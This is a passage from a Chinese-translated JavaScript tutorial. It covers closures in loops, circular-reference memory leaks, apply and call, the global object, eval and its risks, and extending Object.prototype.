你看到的不是每个单词，而是最后一个单词的四个实例。这是为什么呢？这个问题与你第一个循环中的变量 `theItem` 有关。尽管我创建了四个独立的闭包，但它们共享同一个环境并引用同一个变量。随着该变量在循环过程中发生变化，每个闭包都会受到影响。解决这个问题的办法是使用我在上一节介绍的函数工厂技术。例如：

```javascript
// 循环中闭包的正确用法

var myArray = ["Apple", "Car", "Tree", "Castle"];
var closureArray = new Array();

function writeItem(word) {
  return function() {
    document.write(word + "<br />");
  }
}

// 遍历 myArray 并为每个项创建一个输出该项的闭包

for (var i = 0; i < myArray.length; i++) {
  var theItem = myArray[i];
  closureArray[i] = writeItem(theItem);
}

// 遍历闭包数组并执行每一个。

for (var i = 0; i < closureArray.length; i++) {
  closureArray[i]();
}
```

在修改后的示例中，我创建了一个新函数 `writeItem(word)`，它返回你之前使用的闭包。当我遍历数组时，我返回了该函数的引用。这样做的效果是为循环中的每个闭包创建了一个独立的环境——无疑这看起来与上一节中的函数工厂示例非常相似。当你运行这个示例时，你会看到正确的单词被写入页面：

Apple

Car

Tree

Castle

#### 循环引用

另一个需要注意的巨大陷阱是循环引用。在我们的 JavaScript 引擎中，有一个被称为“垃圾回收器”的小程序。它们会定期扫描我们的 JavaScript 上下文中未被引用的对象以释放内存。正如你可以想象的，这是一项重要任务，因为它直接影响了我们程序使用的内存总量，反过来又影响了我们浏览器和整个操作系统的整体性能。从历史上看，Internet Explorer 和 Mozilla 的垃圾回收机制在清理由具有循环引用的闭包所使用的内存时存在过问题。它们最终没有被垃圾回收器识别，随着时间的推移，可能会导致你的程序出现严重的内存泄漏。

闭包内部的循环引用产生于：一个 JavaScript 对象包含了对 DOM（文档对象模型）对象的引用（如 DIV），而该 DOM 对象又引用了该 JavaScript 对象。这在你配合 `mouseover` 或 `click` 等事件使用闭包时经常发生。在第 6 章中，我将更详细地介绍事件。现在，你只需要知道，将一个闭包设置到 DOM 元素的 `onclick` 属性上就是告诉浏览器当有人点击该对象时执行该代码。

```html
<div id="myDiv">Hello World</div>

<script>
// 演示闭包的循环引用内存泄漏

function myFunction(){
  var elObj = document.getElementById("myDiv");
  elObj.onclick = function() {
    alert("This function is leaking."); // 这个函数正在泄漏。
  }
}

myFunction();
</script>
```

在上一个示例中，我有一个由 JavaScript 对象 `elObj` 表示的 DOM 对象。接下来，我为 DOM 元素的 `onclick` 事件分配了一个闭包。这意味着，当你点击页面上的该对象时，你会看到一个显示为“此函数正在泄漏”的警报框。遗憾的是，内存泄漏在你点击它之前很久就已经开始了。问题在于，尽管闭包本身并没有引用 `elObj`，但它仍然可以访问它。正如你所知道的，这就是闭包的工作原理。反过来，`elObj`（通过 `onclick` 属性）对该闭包有一个隐式引用。这是一个循环引用，某些浏览器将无法协调这种引用以便在垃圾回收器中清理它。记住，`elObj` 在浏览器中占用的内存越多，内存泄漏得越快。

解决这个问题有几种方法。最简单的方法就是*断开其中一个引用*。如果不再是循环引用，就没有问题了。由于我并不真的需要闭包中对 `elObj` 的引用（可以使用 `this` 关键字代替），我应该在 `myFunction()` 结束时将 `elObj` 设置为 `null`，如下面修改后的版本所示：

```javascript
// 使用闭包演示循环引用内存泄漏

function myFunction(){
    var elObj = document.getElementById("myDiv");
    elObj.onclick = function() {
        alert("此函数正在泄漏.");
    }
    elObj = null; // 这断开了循环引用
}

myFunction();
```

修复此示例中循环引用的还有另一种方法。这是确保你用于 `onclick` 事件的闭包位于不同的作用域中，并且无法访问 `elObj`。如果你想保持相同的整体结构，可以使用如下示例中的第二个闭包来实现：

```javascript
function myFunction(){
  var anotherClosure = function() {
    alert("我承诺不会在你的程序中泄漏！");
  }
  function innerFunction() {
    var elObj = document.getElementById("myDiv");
    elObj.onclick = anotherClosure;
  };
  innerFunction();
}

myFunction();
```

在这里，我将闭包移动到了名为 `anotherClosure` 的变量中。接下来，我创建了另一个名为 `innerFunction()` 的函数。在这个内部，我获取了 DOM 元素的引用（`elObj`）并分配了 `onclick`。我这样做是为了创建一个新的上下文，使得 `elObj` 将超出 `anotherClosure` 的访问范围。这看起来可能很复杂，但实际上非常简单。可以进一步重构，通过使用完全独立的函数而不是闭包，使其变得更有意义：

```javascript
function myFunction(){
  var elObj = document.getElementById("myDiv");
  elObj.onclick = myNewFunction;
}

function myNewFunction() {
  alert("我甚至不再使用闭包了！");
}

myFunction();
```

这实现了相同的目标，只是没有使用闭包。我绕了一圈大圈，但其实没必要这么做。仅仅通过像我在第一次修改中那样断开循环引用，我就解决了最初的内存问题。最后像我这样得到两个独立的函数时，我丢失了原始方法的某些优雅性。

### 意外闭包

当少量使用时，闭包是非常高效的。然而，它们确实存在一些隐性缺点。创建许多闭包是非常消耗内存的，因为维护闭包本身及其内部函数需要额外的内存。*无意中*创建闭包是非常常见的现象。根据定义，当一个函数在其原始上下文之外变得可访问时，闭包就形成了。以下示例通过将闭包附加到全局引用上实现了这一点：

```javascript
function setOnClick(obj) {
  obj.onclick = function() {
    alert('hello!');
  }
  return null;
}

var myDivObj = document.getElementById('myDiv');
setOnClick(myDivObj);

// 现在 myDivObj 对 setOnClick 函数内部形成的闭包
// 有一个永久的引用
```

尽管我并没有像在许多其他示例那样从 `setOnClick()` 内部返回函数引用（参见函数 `return null` 之前的最后一行）——但由于全局对象 `myDivObj` 现在对该匿名函数有一个永久引用，我实际上*确实*创建了一个闭包。在这种情况下，避免这种情况的简单方法是完全避免使用闭包：

```javascript
function setOnClick(obj) {
    obj.onclick = clickHandler;
}

function clickHandler() {
    alert('hello!');
}

var myDivObj = document.getElementById('myDiv');
setOnClick(myDivObj);
```

你完全可以想象在许多 DOM 对象上运行原始的 `setOnClick()` 会产生什么影响。你将创建许多带有许多循环引用的独立闭包，而你最初根本没打算这么做！

## 执行上下文与作用域

我已经讨论过关于*作用域*的概念，即你在任何给定时间可以访问的执行上下文范围。*上下文*（context）一词的另一种方式是，它是作用域链中最直接的阶段——在这个阶段中，你可以访问所有的变量。

```javascript
// 通过赋值演示作用域
var myObj = {
innerFunction : function() {
this.val = 100;
}
}

myObj.innerFunction();
document.write(myObj.val); // 100
```

根据你目前为止看到的内容，假设 `this` 始终指向 `myObj` 是合理的，但上下文并不是这样运作的。考虑这个修改版本：

```javascript
// 显示关键字是如何工作的
var myObj = {
  innerFunction : function() {
    this.val = 100;
  }
}

var myNewObj = {};
myNewObj.innerFunction = myObj.innerFunction;

myNewObj.innerFunction();

document.write(myObj.val); // undefined
document.write(myNewObj.val); // 100
```

如果你在另一个对象上创建一个指针指向 `innerFunction`，那么另一个对象将接收到 `val` 属性（因为 `this` 始终指向当前上下文）。你有几种方法可以控制函数的执行上下文，强制它们在我们选择的特定上下文中运行——这使得编写面向对象的代码变得简单得多。这些涉及到函数 `apply` 和 `call`的使用。

### 使用 apply()

所有 `Function` 对象都属于一个名为 `apply()` 的方法。它接受两个参数，语法如下：`function.apply(thisContext [, argsArray] )`。第一个参数 `thisContext` 是一个对象引用，将作为 `this` 运算符的宿主。当你在代码中引用当前上下文时，它将应用到该对象。通过这种方式，你本质上临时地将一个函数从一个对象*赋值*到另一个对象，它的表现就像该函数实际上属于 `thisContext` 对象一样。第二个参数是参数数组，包含发送给函数的所有参数的有序列表。这是一个可选参数。

在下面的示例中，我使用 `apply` 来改变函数的执行上下文，改变 `this` 的含义：

```javascript
// 使用 apply 改变函数的执行上下文
var person = {
  name: "Daniel",
  age: 12,
  weight: "150lb",
  describe: function(useLongDesc) {
    document.write("Person 的 name: " + this.name + "<br />");
    document.write("Person 的 age: " + this.age + "<br />");
    if (useLongDesc == true) {
      document.write("Person 的 weight: " + this.weight + "<br />");
    }
  }
}

var jamesBond = {
  name: "James, James bond.",
  age: "timeless",
  weight: "enough"
}

person.describe.apply(jamesBond, [true]);
```

`person.describe.apply(jamesBond, [true]);` 这将生成以下输出：

Person′s name: James, James bond.

Person′s age: timeless

Person′s weight: enough

### 使用 call()

属于 `Function` 类所有实例的另一个方法是 `call()`。这与 `apply()` 非常相似，不同在于它接受参数的方式。它不使用数组，而是使用普通参数列表。`functionObj.call(thisContext [, arg1 [, arg2 [, ...]]]);`。再次，参数 `thisContext` 指的是任何被使用的函数将相等的值。

## 总结

在本章中，你学习了函数在 JavaScript 中的行为。具体来说，你涵盖了以下主题：

- 函数是一类等对象，可以像其他对象一样被创建、引用、修改和销毁。

- 传递给函数的参数根据其数据类型表现有所异。

- 函数的返回值会终止执行。

- 你探索了作用域在函数内部是如何工作的，以及 JavaScript 是如何定义作用域链的。

- 尽管语言没有显式支持重载，但有多种方法可以重载函数。

- 闭包是一种在包含可能存在也可能的上下文的环境中运行的函数。它们是语言的一项强大特性，但应该谨慎使用以避免内存泄漏和意外行为。

- 函数的执行上下文（由 `this` 关键字定义）可以通过使用 `apply()` 和 `call()` 来更改。

在第 6 章中，我将讨论全局对象的各种属性，包括可用的方法、对象和属性，以及全局对象在网页内部是如何被处理的。

# 全局对象和对象对象

学习编程语言最好的方法是掌握所有低级概念并逐步深入。在我开始正经地讨论面向对象开发、窗口、表单等内容之前，我应该介绍另外两个在 JavaScript 中反复出现的低级概念。其中一个是 `Global object`（全局对象），所有其他对象、变量和函数所属的父级结构。另一个是 `Object object`（对象对象），语言中所有其他对象（包括内置对象）继承的基类。一旦你理解了这些内容是如何工作的，它将完善你对 JavaScript 其他特性行为的理解。

## 全局对象的特性

全局对象是所有其他对象所属的最顶层上下文。它具有某些你可以用来构建应用程序的属性和函数。它在 Web 开发中也起着重要作用——作为作用域的最上层上下文，并与你将来将依赖的一些非常高级的浏览器特性共享舞台。除外，全局对象包含：

- JavaScript 中所有内置对象，如 `String`、`Number`、`Math` 等。

- 你在语言中不时使用的几个内置属性。

- 几个内置函数。

- 几个特定浏览器的对象，如 `document` 和 `window`。

它在作用域方面也很有用。当一个变量被引用但未找到时，解释器会沿作用域链移动，在途中检查该变量，直到到达全局对象。如果在那里没有找到，它将被认为不存在并发生异常。当你处于全局作用域时，可以使用关键字 `this` 访问全局对象。

## 浏览器中的全局对象

在浏览器中，全局对象具有特殊用途。除了持有 JavaScript 的所有普通功能并作为全局上下文外，它还是许多特定浏览器对象（如 `window` 和 `document`）的主宿。有趣的是，`window` 属性是一个自引用成员。在全局作用域中工作时，你可以通过使用 `window.variablename` 或直接使用 `variablename` 来访问变量。

你可能会疑惑为什么你有一个全局对象和一个本质上是同一个对象的窗口对象。这是因为当你想要具体访问全局上下文中的某个内容（例如浏览器窗口的 `name` 属性）时，将其表示为 `window.name` 比简单用 `name` 要可靠得多，如下例所示：

```html
<!-- 展示全局对象和窗口对象的本质 -->
<head></head>
<body>
<script type="text/javascript">
var myVar = "Hello";
function checkVars1() {
    document.write("checkVars1: Checking myVar: " + myVar + "<br />"); // "Hello"
}
function checkVars2() {
    var myVar = "World";
    document.write("checkVars2: Checking myVar: " + myVar + "<br />"); // "World"
    document.write("checkVars2: Checking window.myVar: " + window.myVar + "<br />"); // "Hello"
}
checkVars1();
checkVars2();
</script>
</body>
</html>
```

此示例产生以下输出：

checkVars1: Checking myVar: Hello

checkVars2: Checking myVar: World

checkVars2: Checking window.myVar: Hello

这里有两个函数：`checkVars1()` 和 `checkVars2()`。第一个函数引用了变量 `myVar`，它属于全局对象。第二个函数声明了一个同名的变量并执行了相同的操作。你会发现，除非直接提到全局上下文，否则你的全局引用是模糊的，而恰好是 `window.myVar`。

在浏览器中，每个窗口、`iFrame` 和标签都有自己独特的全局对象。有时你可以通过使用 `DOM` 在这些作用域之间通信，但通常它们是分离且独立的。

## 获取全局对象

当然，在浏览器中，获取全局对象就像引用 `window` 一样，但在其他 JavaScript 环境中你可能没有 `window`。幸运的是，有一种更通用的方法可以在使用 `window` 的显式引用它。

```javascript
// 获取全局对象
function getGlobal() {
    return (function(){
        return this;
    }).call(null);
}
```

正如我在上一章提到的，当你使用 `call()` 或 `apply()` 且不指定上下文时，将使用全局上下文。你也知道，当你在全局上下文中使用 `this` 关键字时，你指的是全局对象。因此，如果你创建一个闭包然后在全局上下文中 `call()` 它并返回 `this`，你实际上是在返回全局对象。前面的示例创建了一个简单的函数来执行此操作。调用它非常简单：`var globalObj = getGlobal();`

## 全局属性

全局对象提供了几个在你的应用程序中都非常有用的属性。

**属性列表**



`Infinity` 和 `NaN` 属性旨在在你处理数值时提供帮助。`Infinity` 初始与 `Number.POSITIVE_INFINITY` 相同，这仅仅是一个数学构造，其行为像数字但实际上不是数字。例如，在数学中，任何数乘以无穷大都是无穷大。同样，在 JavaScript 中，任何数字乘以 `Infinity` 都将等于 `Infinity`。

`NaN`（不是数字）属性在你尝试将非数值值视为数字时非常有用。某些 JavaScript 函数（如 `Number` 构造函数、`parseFloat` 和 `parseInt`）如果参数指定的值无法被解释为数字，将返回 `NaN`；但是，你不能通过与 `NaN` 比较来检查一个值是否为 `NaN` —— 请为此使用 `isNaN()`（在下一节“全局函数”中介绍）。

三个全局属性中的最后一个是 `undefined`。早些时候，我将 `undefined` 引入 JavaScript 中的一种正式类型。如你所知，当变量没有被实例化时，它们的初始值为 `undefined`。未定义的变量的 `typeof` 也是 `undefined`。以下两个语句都为真：

```javascript
myUndefinedVar == undefined
```

`typeof myUndefinedVar == "undefined"` 使用 `undefined` 来检查变量存在的唯一困难在于，你可以重写 `undefined` 属性。

// 演示变量的 `typeof` 如何比与 `undefined` 进行相等比较更健壮

```javascript
var myUndefinedVar;

if (myUndefinedVar === undefined) {
  document.write("1: myUndefinedVar is undefined.<br/>");
}

var undefined = "undefined";

if (myUndefinedVar === undefined) {
  document.write("2: myUndefinedVar is undefined.<br/>");
}

if (typeof myUndefinedVar == "undefined") {
  document.write("3: myUndefinedVar is undefined.<br/>");
}
```

这将会产生以下输出：

1: myUndefinedVar is undefined.

3: myUndefinedVar is undefined.

通过重写 `undefined` 属性，我使得检测无值变量的策略失效了。如果我的是一个既没有实例化也没有*声明*的变量，该技术也会失效。例如，如果我尝试执行 `if (myVar == undefined)` .. 但 `myVar` 未被声明，我将得到一个 `ReferenceError`。然而，如果我只是检查一个未声明变量的 `typeof`，这是一个有效的操作。

## 全局函数

除了少数有用的全局属性外，全局对象中还有许多函数。这些是：**方法列表** 

### URI 编码

许多此类全局函数用于将字符串值编码和解码为其他格式。这些函数是全局对象的一部分而不是 `String` 类的一部分这似乎很奇怪，但在浏览器脚本的早期，这可能被这样设计，以方便那些经常需要这些辅助函数的开发者。

函数 `decodeURI()`、`encodeURI()`、`escape()`、`unescape()`、`decodeURIComponent()` 和 `encodeURIComponent()` 均以不同程度用于对字符串进行编码，以便它们可以在其他计算机上被读取并在 URL 字符串中传输。在第 7 章中，我将详细介绍这些内容。现在，请考虑以下示例。

以 URL 参数的形式在互联网上发送数据是简单的。使用以下语法：`http://myurl.com/index.php?myparam=true&myparam2=hello`

然而，如果你想在 URL 字符串中将字符串 "A & W Root Beer" 作为参数发送，就会遇到问题。首先，URL 不能包含空格。其次，符号 `&`（和）被保留为参数分隔符（用于分隔同一查询字符串中的多个参数）。你需要对此字符串进行*编码*，以保留所有信息，同时确保不会*破坏*你的查询字符串。一个简单的解决方案是使用上述函数之一对其进行编码。例如，如果你对字符串使用 `encodeURIComponent()`，你将得到：`"A%20%26%20W%20Root%20Beer"`。这是一个你随后可以在 URL 中传输的字符串。

### 求值代码

你可以使用的全局函数之一是 `eval()`，它允许你在没有特定上下文中执行（求值）字符串代码。`eval()` 的语法简单：`eval( string )`

单个参数 `(string)` 是一个包含单个或一组 JavaScript 表达式或语句的字符串。它可以包含变量、新对象定义或对其他现有对象的引用。简而言之，它可以是一个整个程序或对你程序的扩展。该字符串可以来自 Web 表单、你创建的字符串字面量或从我们程序其他部分生成的字符串。

以下是逐渐变得复杂的 `eval()` 示例：

```javascript
eval("1 + 1"); // 2
eval(new String("1 + 1")); // "1 + 1"
eval( (new String("1 + 1") ).toString() ); // 2
eval("document.write('hello')"); // "hello"
eval("var myVar = 10;");
eval("var myVar = 10; document.write(myVar);");
eval("window.myVar"); // 10
eval("function myFunction() {return true;}; myFunction()"); // true
```

#### 执行上下文

虽然你不能直接为 `eval()` 调用设置求值上下文，但上下文*确实*是重要的。它将始终采用调用时的范围和上下文。

// 演示上下文对 eval 的影响

```javascript
window.myVar = "hello";

function evalTest() {
  var myVar = "World";
  document.write( eval("myVar") ); // "World"
}
evalTest();
```

当你调用 `evalTest()` 时，它将假设调用者的执行上下文。在前面的示例中，因为我在 `evalTest()` 的上下文中调用它，它引用了该函数中的局部变量。

某些旧版本的 Mozilla 接受在字符串之后作为 `eval()` 的第二个参数的执行上下文。由于这并不是通用支持，你仍然可以通过使用 `with` 语句设置代码块的上下文可以使用另一种路径：

// 设置 eval() 的执行上下文

```javascript
var elvis = {
  name: "Elvis",
  occupation: "Rock Star",
  status: "Abducted"
};

with (elvis) {
  eval("document.write(name);"); // "Elvis"
}
```

#### eval() 的危险

关于 `eval()` 的相对*安全性*存在很多争议。如果你正在求值的字符串可能会受到用户输入的影响，通常认为使用它是**不安全*的，因为这段用户创建的代码将以与我们程序相同的权限执行。更大的担心可能是对页面性能的影响。使用 `eval()` 执行一行代码比直接执行内联代码慢得多。这种性能下降取决于浏览器，但它是普遍 true 的。另一个问题是求值的代码更难调试。你无法从 IDE 的语法高亮或智能感应中获益，而且很难使用浏览器调试器对其进行*单步执行*。通常，你应该寻找非求值的方法来即时执行代码。

### 数字辅助函数

有许多处理数字以及字符串的全局函数。这些是 `isNaN()`、`isFinite()`、`parseInt()` 和 `parseFloat()`。

其中第一个 `isNaN()` 用于判断一个值是否等于 "Not a Number"不是数字）。由于你无法简单通过与 `NaN` 进行相等测试来测试一个值是否可以转换为数字，你可以使用此函数来测试转换。例如，`myVar == NaN` 和 `myVar === NaN` 在任何情况下始终为 false，而 `isNaN(myVar)` 可能返回 true 或 false，取决于 `myVar` 是否可以转换为数值。以下是 `isNaN()` 的几个示例：

```javascript
isNaN(NaN); // true
isNaN("Hello World"); // true
isNaN("99"); // false
isNaN(99); // false
```

下一个 `isFinite()` 用于判断一个数字是否为有限值。它接受一个参数，如果该值为 `NaN`、`Number.POSITIVE_INFINITY` 或 `Number.NEGATIVE_INFINITY`，则返回 false；否则返回 true。

最后两个函数 `parseInt()` 和 `parseFloat()` 用于将值转换为数字。它们接受单个参数并尝试将其转换为舍整数或浮点值。如果无法转换，它们将返回 `NaN`。语法简单：

// 大多数 JavaScript 引擎：

```javascript
var myInt = parseInt(numstring)
var myFloat = parseFloat(numstring)
```

// 基于 Gecko 的引擎：

```javascript
var myInt = parseInt(numstring, radix)
var myFloat = parseFloat(numstring, radix)
```

或许全局对象中最重要的成员是语言中每种数据类型的基类。这些被称为 `global objects`（全局对象）。它们不与 `global object`（全局对象）混淆，后者指的是 JavaScript 中所有事物所属的上下文。全局对象都是全局对象的直接成员。全局对象都是单一类的实例：`Object object`。

## Object object（对象对象）

`Object object` 是语言中所有其他对象的基类。它也是你实例化自定义对象的一种方法。虽然你还没有接触过面向对象的开发，但对于大多数高级编程语言来说，这是一个基本概念。本质上，对象是一个封装结构，它既持有信息（属性），又能执行某些操作（方法）。它是将这些内容分组在一起的一种方便方式，以便你的程序可以方便地引用它们。我将在第 10 章中详细详细讨论这一点，但现在我需要快速介绍其他几个相关概念，以便我们对 JavaScript 中各种对象的讨论具有合理性。

这些概念之一是 `inheritance`（继承）。我们有时说某人继承了父亲的耳朵或母亲的鼻子。同样，当某个东西属于一个类（为了类比，称为 `family` 家庭）时，它继承了该类的特征。当我们说 JavaScript 中的所有对象都基于 `Object object` 时，我们的意思是它们继承了它的一组属性和方法。事实上，你在 JavaScript 中创建的每个变量都派自 `Object` 类。

尽管如此，`Object object` 本身也很有用。有多种方法可以创建 `Object` 的实例。一种是使用对象的构造函数。其语法为：`new Object( [ value ] )`。`new` 关键字表示你正在使用特定对象的构造函数来创建一个对象的实例。再次，我将在第 10 章中更详细地介绍这一点。`Object` 的构造函数为给定值提供了一个方便的 `wrapper`（包装器）。如果该值恰好是 `null` 或 `undefined`，它将仅仅创建一个空对象。如果提供标识符或字面量，它将返回一个与该值类型对应的对象。例如，以下是有效的对象构造列表：

```javascript
var myObj = new Object(); // 空对象实例
myObj = new Object("hello");    // 字符串对象实例
myObj = new Object(Boolean());    // 初始值为 false 的布尔对象
myObj = new Object(false);    // 与上述相同
```

在现代 JavaScript 中，你也可以使用 `object literal notation`（对象字面量符号）创建简单对象。这会隐式调用类构造函数并返回一个实例。我已经展示了许多对象表示法的示例，这里是另一个：

```javascript
var myObj = {};    // 空对象实例
myObj = true;  // 布尔对象实例
myObj = "hello" // 字符串对象实例
```

眼熟吗？这意味着每当你创建一个字符串、数字或其他数据类型的变量时，你都在创建该对象类的 `instance`（实例），并继承了 `Object object` 的所有成员。

以下是成员列表。请注意，并非所有成员在所有 JavaScript 解释器中都可用。详细的兼容性信息请参见录 B。

在前面的方法和属性矩阵中，你看到了很多实用的功能。这些中的每一个（如果浏览器支持）都会扩展到你创建的每个变量。例如：

```javascript
// 展示对象属性的可继承性
var myString = "Hello";
var myNumber = 123;
var myObj = {};

// 现在我们测试每个项，看看 Object 方法
// toString() 是否被继承
document.write(myString.toString() + "<br />"); // "Hello"
document.write(myNumber.toString() + "<br />"); // "123"
document.write(myObj.toString()); // "[object Object]"
```

### Object Prototypes（对象原型）

你可能已经知道，JavaScript 不是典型的面向对象语言。它使用名为 `prototypal inheritance`（原型继承）的方法，而不是经典的继承。这意味着你不是定义类，而是创建对象并指定一个 `prototype`（原型）。困惑吗？我将在第 10 章消除该主题的任何歧义。目前，你只需要通过修改 `Object` 的原型就可以改变语言中所有对象的定义。看看这个例子：

```javascript
// 展示原型属性的用处
// 给对象类添加一个名为 developedBy 的属性
Object.prototype.developedBy = "John Smith";

// 现在我们创建不同类型的对象
function myFunction() {}
var myArray = new Array("apple", "tree", "horse");
var myBool = new Boolean("true");

// 现在我们测试新属性是如何应用到这些后代对象的
document.write(myFunction.developedBy + "<br />"); //John Smith
document.write(myArray.developedBy + "<br />"); //John Smith
document.write(myBool.developedBy) ; //John Smith
```

因为你修改了 `Object` 的原型，而所有其他对象都继承这个类，你可以看到你的测试函数、`array` 和 `Boolean` 值都继承了这个新属性。这将产生以下输出：

John Smith

John Smith

John Smith

同样，你可以 `extend`（扩展）`Object`原型以包含你选择的函数。在后面的章节中，我经常这样做来为 JavaScript 中的不同对象添加功能。对于使用原型属性扩展 JavaScript 语言中基类的安全性，存在不同的观点。出于各种原因，有些人倾向于不要这样做。通常，当你为你控制的环境进行开发时，这是一种安全的做法——但请继续阅读第 12 章，讨论为什么你可能想或不想在应用程序中使用这种方法。

### Determining if a Property Exists（判断属性是否存在）

`Object` 类为所有对象提供了许多实用的功能。其中之一是 `hasOwnProperty()`，它可以告诉你任何对象实例是否具有特定属性。例如：

```javascript
// 展示 hasOwnProperty()
person = {name:"Elvis"};
// 首先测试一个已知的属性
document.write(person.hasOwnProperty('name') + "<br />"); // true

// 现在我们测试一个不存在的属性
document.write(person.hasOwnProperty('age')); // false

// 现在我们测试一个存在但是继承的属性！
document.write(person.hasOwnProperty('hasOwnProperty')); // false
```

如前面的示例所示，它接受一个参数，属性名称的字符串值。这对于函数以及字符串或数字等简单属性同样有效。然而，它不适用于通过原型链上升的*继承*属性，如示例的最后一行所示。

### valueOf() and toString()

另外两个属于 `Object` 类但扩展到所有其他对象的函数是 `valueOf()` 和 `toString()`。这两个函数之间的区别并不总是显而易见的。关键区别在于：`valueOf()` 设计用于为对象返回一个 `primitive value`（原始值），而 `toString()` 设计用于为对象返回一个最有意义的 `text value`（文本值）。换句话说，`valueOf()` 在编程意义上通常更有用，而 `toString()` 在可读性方面更有用。如果你想将对象的内容打印为文本，你会使用 `toString()`；而如果你想根据现有的对象构建新对象，你可能会查看 `valueOf()`。在实践中，大多数继承自 `Object` 的对象类型（如 `String`、`Boolean`、`Date` 等）都在原型上重写了 `valueOf()` 方法，以返回更有意义的值。通用对象的默认响应通常是 `[object Object]` 的内容，而日期的 `valueOf()` 原始值将是 `ticks`（刻度）的数量（这些值可以用于构建新日期）。通常情况下，当你构建自己的对象时，建议重写 `valueOf` 方法以提供一个比 `[object Object]` 更有意义的原始值。同样，`toString()` 并不总是能提供对象非常有用的文本表示。对象的默认字符串值（取决于浏览器）通常是 `[object Object]` 之类的内容，而一个 `Date` 对象的 `toString()` 值可能看起来像 `″Thu Dec 11 2008 21:26:00 GMT-0800 (PST)″`。幸运的是，这些只是简便的实用函数，如果你想使用更复杂的内容，可以对它们进行重写。利用已经介绍的原型概念，你可以轻松编写一个新的 `toString()` 方法，并将其扩展到原型链上任何没有对应版本的对象。例如：

```javascript
// 为 Object 类编写一个更有用的 toString() 方法

Object.prototype.toString = function() {
  var result = "";
  for (prop in this)
    result += prop + ": " + this[prop].toString() + ", ";
  return result;
}

person = {name:"Elvis", age:57};
document.write(person.toString() ); // name: Elvis, age: 57
```

当你进一步观察 JavaScript 中的更多全局对象时，你将基于对对象和继承的理解，以类似的方式添加功能。稍后，你将更深入地研究 JavaScript 中的面向对象开发。

## 对象的常用实用函数

现在我已经介绍了 `Object` 对象的作用，以及你如何在其基础上进行构建以为 JavaScript 中的所有对象提供新功能，接下来你将查看它有时被扩展以提供有用新功能的一些常用方法。

### 合并对象

在第 5 章中，你已经过了使用对象来重载函数参数定义的实践。其中的关键步骤之一是将我们的参数对象与一组默认值合并。与其将此合并函数作为一个独立的工具，你可以将其构建到对象定义本身，以便获得一个更简洁、更易用的工具。你再次使用 `Object` 的 `prototype` 属性来实现这一点。任何继承此定义的对象（包括你的所有其他数据类型）都将获得此内置功能。首先编写一个简单的合并函数，遍历对象中的所有项并复制它们：

```javascript
// 将一个对象合并到另一个对象，如果存在则保留原始值

Object.prototype.merge = function(objSource) {
  // 确保我们处理的是一个有效对象
  if (typeof this == "object" && objSource && typeof objSource == "object")
    for (var arg in objSource)
      if (typeof objSource[arg] == "object" && !objSource[arg].length) {
          if (!this[arg])
            this[arg] = {};
          this[arg].merge(objSource[arg]);
        } else
          this[arg] = this[arg] || objSource[arg];
}
```

通过使用 `for .. in` 循环，你会顺序遍历对象的每个属性，无论是属性还是函数引用。由于此设计用于对象类型上工作，因此你检查 `this` 的类型以确保你没有将其应用于不同的类型，同时你还检查了 `objSource` 的类型，即你正在与之合并的对象。当你遍历 `objSource` 时，你会检查每个属性以判断它是对象或其他类型。由于对象是 `reference types`（引用类型），你想要对每个恰好也是对象的属性应用 `merge()`。否则，你只需复制该属性。接下来，你创建两个对象并通过将其中一个合并到另一个来测试合并行为是否有效：

```javascript
// 将一个对象合并到另一个对象。我们将从一个通用的个人定义开始..

person = {
  name: "Unknown",
  age: 0,
  height: "Unknown",
  weight: "Unknown",
  occupation: "Unknown",
  children: {
    count: 0,
    names: []
  }
}

elvis = {
  name: "Elvis Presley",
  age: 57,
  occupation: "Rock Star"
}

// 现在我们将 person 合并到 elvis
elvis.merge(person);

//.. 并测试其中新属性是否被复制
document.write("Elvis′s Weight: " + elvis.weight); // Unknown"
```

最后，你会发现 `person` 中包含的新属性已成功复制到 `elvis`。此外，`children` 属性是通过 `merge` 复制的，这意味着你可以安全地修改而不改变原始定义。

### 更好的 typeof

正如第 4 章讨论，你使用 `typeof` 运算符来判断某个东西是什么种的对象。例如，表达式 `typeof (new Object())` 将返回 `″object″。`typeof` 运算符存在的问题在于，并非所有的返回值都特别有用。例如，查看以下这些对象类型的 `typeof` 响应：`null` 返回 `Array` 同样返回 `″object″`。某些框架为对象类添加了一个实用方法，恰好执行此操作。实现此点的良好方法是使用 `Object` 对象的 `constructor` 属性（我将在第 12 章中详细介绍）来查看是哪种对象类型创建了实例。你可以通过多种方式实现。其中一种方法是重用 `prototype` 属性将此功能扩展到所有对象：

```javascript
// 为我们的 Object 类添加一个改进的 typeof 功能

Object.prototype.getType = function() {
  if (typeof(this) == "object") {
    if (this.constructor == Array) return "array";
    if (this.constructor == Date) return "date";
    if (this.constructor == RegExp) return "regex";
    return "object";
  }
  return typeof(this);
}
```

要测试这一点，你可以创建若干测试对象并查看返回的是什么类型：

```javascript
// 测试我们新的 getType() 函数

var myArray = new Array();
var myObj = new Object();
var myRegex = new RegExp();
var myDate = new Date();

document.write(myArray.getType() + "<br />"); // array
